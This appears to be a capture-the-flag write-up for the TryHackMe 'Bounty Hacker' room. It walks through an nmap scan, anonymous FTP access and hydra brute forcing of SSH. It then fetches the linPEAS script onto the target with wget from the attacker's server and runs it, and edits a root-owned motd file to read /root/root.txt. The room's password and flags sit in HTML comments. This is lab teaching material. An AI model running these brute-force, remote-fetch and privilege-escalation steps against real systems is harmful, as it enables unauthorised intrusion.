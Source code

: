 # Room

## Disclaimer

This writeup is for a room located on TryHackMe. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the 'Deploy' button

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network

```
nmap -sV -sC -Pn
```

As we can see there are three open ports

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited FTP?

Thanks to this hint we know to use the ftp server we found in the nmap scan. So, for this to work we need to use the following command

```
ftp ${MachineIP}
```

To log into the ftp server, we will be using anonymous to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the dir directory. We notice there is a text file called task.txt. We can view this file directly in the ftp terminal using the following command

```
get task.txt -
```

After finding this task.txt file, we will notice there is another file called locks.txt and it looks like a bunch of strange passwords, lets use a the get command again to save this on out machine for a future task

```
get locks.txt
```

We now have our answer!: <!-- lin -->

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on port 22: <!-- ssh -->

# Task 5

Hint: Hydra may be able to help.

Okay, so we found the answer for task 4, we need to move on from the ftp and now start using ssh on port 22.

Since we discovered the username, we can now ssh, but where is the password?

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user

```
hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password(<!-- RedDr4gonSynd1cat3 -->), lets move on to finding the user.txt file for task 6!

# Task 6

Now to begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access

```
ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privilages

```
sudo -l
```

After we run a simple command to see the available items in the directory, we see the user.txt file which has our first flag!

```
ls
cat user.txt
```

<!-- THM{CR1M3 SyNd1C4T3} -->

# Task 7

All thats left is to find the root.txt and complete the CTF!

The easiest way to actually accomplish this is by using linpeas & python, so we're gonna start off by getting a python server up and running with the command

(Remember to do this in your root terminal, not as the user)

```
sudo python3 -m http.server 80
```

Now to actually obtain the script, we can create a directoy, wget the actual linPEAS script from the GitHub repository and then transfer the file over to the target machine

```
$ mkdir LinEnum
$ cd LinEnum
~/LinEnum# wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal and we have it saved on our server, lets move it over to the target machine

(Remember to use this command on the target's terminal)

```
wget "http://${PrivateIP}/linpeas.sh"
```

Note:: If using the THM cloud kali linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

To make our linpeas script executable, we simply do this command

(Notice the color change when we run this command)

```
chmod +x linpeas.sh
```

Time to run the script!

```
$ ./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file calle /etc/update-motd.d/00-header (Notice how it's highlighted)

After locating this file, it's time to change the directory over to it

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the 00-header file we found is actually owned by root.

The easiest way to do this is by using nano (I didn't check to see if any other IDE or text ediotrs were available).

```
nano 00-header
```

Now that we have the file open, lets edit the file so that we can access root.txt.

For this we just need to add the following command at the very bottom of the open file

```
cat /root/root.txt
```

ctrl + x to save the file

After completeing all the above tasks, all we have to do is logout of the ssh shell and log back in and you'll see the root.txt flag is located directly in the login terminal screen!

```
ssh ${user}@${MachineIP}
```

Congratulations! Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called Cowboy Bebop (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

## YouTube Version

I will be posting a video covering this writeup very soon!
